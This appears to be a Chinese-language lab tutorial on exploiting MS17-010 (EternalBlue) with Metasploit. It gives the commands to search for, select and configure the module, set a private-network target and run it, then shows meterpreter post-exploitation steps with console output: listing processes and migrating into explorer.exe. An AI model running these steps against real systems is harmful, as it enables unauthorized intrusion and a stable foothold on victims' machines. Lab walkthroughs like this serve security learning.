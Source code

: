 

### 搜索攻击载荷

```
search ms17_010
```

![image-20220317135133016](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cu2a1hocj21xs0cgn0o.jpg)

### 永恒之蓝攻击载荷

```
use 2
```

![image-20220317135219561](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cu32l6v1j20n604oaac.jpg)

### 配置的参数

```
options
```

![image-20220317135313535](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cu40f11zj21eo0jc77g.jpg)

#### 设置 目标ip

```
set RHOSTS 172.20.10.3
```

### run攻击

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cu6b557sj21bu0u0gtp.jpg)

### meterpreter后渗透

#### 1、ps 查看进程

![image-20220317150505812](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cw6sl5ccj20mh0cktan.jpg)

#### 2、查看当前进程号

```
getpid
```

![image-20220317150602357](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cw7s4exvj205i01jt8j.jpg)

从ps查看的运行进程内找出meterpreter的ipd，可以看到，现在的进程为1104，name为svchost.exe，输入migrate 2844迁移至explorer.exe，因为该进程是一个稳定的应用，然后再使用getpid查看新的进程号

```
meterpreter > migrate 2844
 
[] Migrating from 1104 to 2844...
 
[] Migration completed successfully.
 
meterpreter > getpid
 
Current pid: 2844
 
meterpreter >
```
